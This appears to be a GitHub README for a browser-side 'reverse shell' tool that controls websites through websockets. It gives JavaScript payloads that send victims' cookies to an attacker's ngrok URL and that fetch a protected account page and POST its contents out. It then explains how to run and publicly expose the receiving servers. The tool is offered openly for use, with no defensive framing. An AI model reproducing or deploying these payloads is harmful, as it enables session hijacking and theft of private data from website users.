 ## about shell
A reverse shell for controlling any website via websockets with a built-in HTTP server so you can receive data.

## Capture user cookies

```
fetch(`https://ngrok-url?cookie=${encodeURIComponent(document.cookie)}`)
```
## Capture protected page or data

```
fetch('/account)
    .then(p => p.text())
    .then(t =>
        fetch('https://ngrok-url', {
          method: "POST",
          headers: { 'Content-Type':'application/json' },
          body: JSON.stringify({p:t})
        })
) 
```
### Running the servers

The first step is to install depencencies:

```bash
npm install
```

Then you can run the regular HTTP server (CORS enabled):

```bash
npm run http
```

Or the websocket server:

```bash
npm run ws
```

_____________________________

### HTTPS/WSS/External access

You can use ngrok to connect via HTTPS, WSS or externally without changing any configuration.
https://dashboard.ngrok.com/get-started

Once it's installed, you can then expose the HTTP server:

```bash
ngrok http 8000
```

Or the Websocket server:

```bash
ngrok http 8080
```

_Just use wss://ngrok-url  instead of https://ngrok-url for wss connections_
<br>
if you dont want to use ngrok you can host them on heroku or vercel but insted of console.log write to a log file 